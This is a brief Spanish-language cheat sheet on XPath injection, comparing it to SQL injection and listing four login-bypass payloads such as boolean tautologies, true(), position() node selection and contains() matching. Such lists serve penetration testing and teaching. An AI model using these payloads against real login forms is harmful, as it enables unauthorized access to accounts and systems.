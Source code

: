 ## Authentication bypass

El xpath injection funciona parecido a las SQLI (es como una prima). Posee una sintaxis diferente y aborda los indexes de nodos dentro de un xml.

#### Bypass mediante boolean simple:

  admin' or '1'='1

#### Bypass mediante un true absoluto

  ' or true() or '

#### Buscar un usuario por index de nodo para el logueo

  ' or position()=2 or '

#### Bypass buscando un usuario específico:

  ' or contains(.,'admin') or '


